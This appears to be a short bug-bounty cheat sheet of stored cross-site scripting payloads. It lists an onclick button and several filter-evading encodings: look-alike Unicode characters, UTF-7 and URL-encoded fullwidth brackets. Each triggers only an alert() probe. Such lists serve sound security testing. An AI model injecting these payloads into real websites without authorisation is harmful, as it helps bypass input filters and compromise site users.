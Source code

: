 # Stored
## Button
```html
<button onclick=alert("Pay Me Pls")>Get Bounty</button>
```
## High encoded
```
¼scRİPt¾alert``¼/sCrİpT¾
```
```
¼ıMg ſRc=a oNeRRor=alert``¾
```
```
+ADw-iMg srC=+ACI-1+ACI- oNeRRor=alert``+AD4-
```
```
%EF%BC%9Csvg%20onload%3Dalert``%EF%BC%9E
```
